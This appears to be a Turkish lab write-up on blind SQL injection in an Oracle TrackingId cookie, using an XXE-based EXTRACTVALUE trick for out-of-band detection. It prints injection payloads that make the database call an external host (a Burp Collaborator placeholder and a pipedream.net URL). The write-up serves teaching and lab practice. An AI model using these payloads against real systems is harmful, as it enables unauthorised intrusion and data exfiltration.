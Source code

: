 Şuan SQL Injection zafiyetinin varlığını ve veritabanı sisteminin ne olduğunu tespit edemediğimiz için başlangıçta Oracle üzerinden denemeler yapalım. Bu kısımdaki yapıdan yararlanacağız. Buradaki yapıda da daha önce ele aldığımız XXE zafiyeti ile alakalı bir konudur. 

```python
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Buraya gelirken de anlamamız gereken bir nokta daha bulunmakta. Cookie’de bulunan TrackingId alındıktan sonra ne yapıldığını da bilmeliyiz.

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2035.png)

Gerçek hayattan örnekleri düşünecek olursak TrackingId’nin değeri direkt olarak SELECT sorgularında geçmez, INSERT sorgularında geçmesi daha muhtemeldir. 

```python
INSERT INTO X (a,b,c) VALUES ('','','yVal16XJw78Gd1zM')
```

Bizim değerimiz buraya geliyorsa Oracle’da string birleştirmenin nasıl olduğuna bakarak ilerleyebiliriz. Oracle’da string birleştirme 'foo'||'bar’ şeklinde olmaktadır. Örneğin bizim verimiz 3. değişkende olacaksa burada bir subselect sorgusu açabilir miyiz diye düşünelim. Eğer bunu gerçekleştirebilirsek buradan ilerleyebiliriz. 

```python
INSERT INTO X (a,b,c) VALUES ('','','yVal16X||()||Jw78Gd1zM')
```

Lab ortamında da yapmamız gereken şey temelde bu mantığa dayanmaktadır. Ayrıca buradaki bazı özel karakterleri de Cookie yapısının bozulmaması için encode etmemiz gerekmektedir. Noktalı virgül → %3b ve % → %25

```python
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://https://eo2pbauj182lj8v.m.pipedream.net/"> %25remote%3b]>'),'/l') FROM dual)||'
```
